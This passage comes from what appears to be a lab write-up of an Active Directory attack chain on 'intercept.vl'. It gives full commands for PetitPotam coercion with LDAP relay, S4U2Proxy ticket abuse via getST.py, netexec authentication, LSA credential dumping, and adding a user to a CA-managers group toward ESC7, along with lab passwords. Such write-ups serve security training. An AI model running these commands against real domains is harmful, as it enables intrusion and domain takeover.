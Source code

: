 Finally, we can use PetitPotam to coerce Webclient HTTP authentication
```
python3 /opt/PetitPotam/PetitPotam.py -u kathryn.spencer -p 'Chocolate1' -d intercept.vl attacker@80/aaa 10.10.134.70
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/e12f6f54-7ab6-4aec-9a5c-2177a1384c4b)

The LDAP relay was successful! And `ntlmrelayx.py` gave as a machine account to use to delegate to WS01!

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/7c13cbe9-0e10-4623-92aa-00eb37a87530)

Now we can request a service ticket using S4U2Proxy and the machine accounts credentials!
```
getST.py -spn 'cifs/ws01.intercept.vl' -impersonate Administrator -dc-ip '10.10.134.69' 'intercept.vl/ZTVBFECA$'
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/84652cb4-c8c6-469d-b262-d09baf622b1d)

Then finally we can test authentication to WS01 using the ticket we've received.
```
KRB5CCNAME=Administrator.ccache netexec smb ws01 --use-kcache
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/543c832f-fdca-4771-9812-1034f08452df)

# WS01 Post Exploitation

When dumping credentials with the `--lsa` flag, I found `Simon.Bowen`'s credentials. 

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/aa9ea902-f22b-475d-be7f-fe1c8c47bd32)

# Active Directory DACL Abuse Into ESC7 Exploitation

After re-running bloodhound with Simon's access, I came across an interesting relationship between some of the objects. Simon is in the Helpdesk group, which has GenericAll over a group called `ca-managers`. If this group has a purpose descriptive name, then it looks like we have a path to DA (Domain Admin)

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/0bf92b68-10aa-448b-9981-befe506bbd71)

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/d15e766e-1c5a-44c4-a843-a10f96ad7287)
 
Lets look at the CA configuration just to make sure this `ca-managers` group can actually manage the CA. Running `certipy` again shows that this is indeed the case!

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/88b0dab7-0feb-4f15-87dc-da6628ed7fab)

Because of the DACL relationship, we can add Simon to the `ca-managers` group with:
```
net rpc group addmem "ca-managers" "Simon.Bowen" -U "INTERCEPT"/"Simon.Bowen"%"b0OI_fHO859+Aw" -S "10.10.239.5"
```
